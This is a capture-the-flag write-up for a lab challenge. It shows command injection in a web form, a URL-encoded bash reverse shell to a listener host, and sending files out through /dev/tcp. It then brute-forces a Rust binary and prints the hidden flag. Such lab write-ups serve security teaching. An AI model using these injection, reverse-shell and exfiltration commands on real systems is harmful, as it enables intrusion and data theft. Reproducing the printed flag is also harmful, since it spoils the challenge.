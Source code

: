 ## Getting started

```bash
docker compose up
# or if you only got the docker image
docker load -i numfui-VERSION-docker.tar
docker run -dp 127.0.0.1:8000:80 numfui:VERSION
# the webservice will be available on http://localhost:8000
```

## Evaluation

The host has a webserver open on 8080.

## Website

We can execute commands with the following POST parameters to index.

```
number=124|echo $(id)&format=hex
```

We can use this to get a reverse shell like this (replace 172.17.0.1 with your IP):
```
number=10%20%7Cbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F9001%200%3E%261%27%3Becho%20A&format=hex
```

This executes `sh -i >& /dev/tcp/172.17.0.1/9001 0>&1` on the target (url
encoded).

Before making the request, listen for a reverse shell

```
$ nc -lnvp 9001 # on host
```

## Foothold

We may use the following to stabilize our reverse shell a bit

```bash
# on target
python -c "import pty; pty.spawn('/bin/bash')" # OR
python3 -c "import pty; pty.spawn('/bin/bash')"

# background with <C-z>

stty raw -echo && fg
export TERM=xterm-256-color
```

Now, we can explore a bit. We see that we are logged in as `dave`, not `root` or
`www-data`. In `/home/dave` there are many files, including some PDF files,
a `notes.txt`, and some binaries in `/home/dave/.local/bin`.

The notes.txt file contains a hint that the user has hidden a "password" in an
program. The file also mentions that he made a little program that calculates
time. Indeed, we find such a program in `/home/dave/.local/bin/`.

```bash
dave@25675c48a0e8:~$ /home/dave/.local/bin/timars
Required option 'from' missing
Usage: /home/dave/.local/bin/timars FILE [options]

Options:
    -f, --from HH:MM    calculate time starting from this time
    -t, --to HH:MM      calculate time until this time
    -p, --pause HH:MM   remove this much time from the result
    -h, --help          print this help menu
```

The help menu of the program does not explain too much and has a wrong usage
section, but it's clear that it is made to calculate time differences.

```bash
dave@25675c48a0e8:~$ /home/dave/.local/bin/timars -f 09:00 -t 15:30 -p 0:25
from            : 09:00
to              : 15:30
pause           : 00:25
difference      : 06:05
```

The "password" must be hidden somewhere in that program.

Since this is a docker container that only exposes port 80, which already has
the web application running, we need to be a bit more creative to download the
files. We cannot simply do `python3 -m http.server 81`, since other ports are
not accessible. Since we do not have `root` access, we cannot install other
software like `ssh` or `curl`.

However, we can do something similar to how we got the reverse shell:

```bash
nc -lnvp 9002 > notes.txt # on host
cat notes.txt > /dev/tcp/172.17.0.1/9002

nc -lnvp 9002 > timars # on host
cat timars > /dev/tcp/172.17.0.1/9002
```

## Analyzing timars

Since the notes mentioned that there is a password there, we could try using
`strings` to see if there are any flag/password like strings. The file contains
a lot of strings, but none of them will be the passowrd, since that string is
obfuscated.

Instead, we might try to analyze this binary with a reverse engineering tool
like cutter. Since Rust (crab) binaries are almost always statically linked,
the tool finds a lot of functions and it is not clear which does what. The
ghidra decompiler decompiles code as C, which is not very intuitive. The binary
is stripped and compiled in release mode.

For me, the Rust binary is rather indecipherable. Instead, I opt for
bruteforcing the parameters of the executable. Since we have 6 parameters to
bruteforce, this involves O(x^6) complexity:

```python
for cth in range(23):
    for ctm in range(59):
        for cfh in range(23):
            for cfm in range(59):
                for cph in range(23):
                    for cpm in range(59):
                        exe(cth,ctm,cfh,cfm,cph,cpm)
```

Using parallel processing and a compiled language makes this possible in
a somewhat okay time. However, if we read the source code of the website, we get
a hint:

```python
if form.number.data == "1337":
    output += "\t\n1337 1z my f4v0R173 NUM83R, S0 k3wl"
```

Now, if we fix the pause parameter to 13:37 and bruteforce the other values:

```
cscherr@LP22034 ...rs/timars/challenge % cp ../target/release/bf . && ./bf
to: 01:00 from: 00:00 pause: 13:37 => len: 61
to: 02:00 from: 00:00 pause: 13:37 => len: 61
to: 00:00 from: 00:00 pause: 13:37 => len: 61
to: 08:00 from: 00:00 pause: 13:37 => len: 60
to: 14:00 from: 00:00 pause: 13:37 => len: 60
to: 15:00 from: 00:00 pause: 13:37 => len: 60
to: 11:00 from: 00:00 pause: 13:37 => len: 60
to: 05:00 from: 00:00 pause: 13:37 => len: 60
to: 03:00 from: 00:00 pause: 13:37 => len: 61
to: 17:00 from: 00:00 pause: 13:37 => len: 60
to: 13:00 from: 00:00 pause: 13:37 => len: 60
to: 20:00 from: 00:00 pause: 13:37 => len: 60
to: 06:00 from: 00:00 pause: 13:37 => len: 60
to: 04:00 from: 00:00 pause: 13:37 => len: 61
to: 12:00 from: 00:00 pause: 13:37 => len: 60
to: 18:00 from: 00:00 pause: 13:37 => len: 60

              ./timars -f 00:46 -t 02:00 -p 13:37
              from              : 00:46
to              : 02:00
pause           : 13:37
difference      : -13:37
F~L~Â~G{E1nb38V9a3V5e86HzlY27UFAErIP5mA34kES9fbu}

              ==================
              SOMETHING UNUSUAL!
              LEN: 112


```

The length of the output is significantly different, and the flag (password) is
printed. Challenge solved!

## References

- [Easy Reverse Shells](https://www.revshells.com/)
- [timars repository](https://git.cscherr.de/PlexSheep/timars/src/tag/v0.1.0), contains bruteforce code and code for timars itself
- [repository for this challenge](https://github.com/PlexSheep/dhbw-offsec-pl)
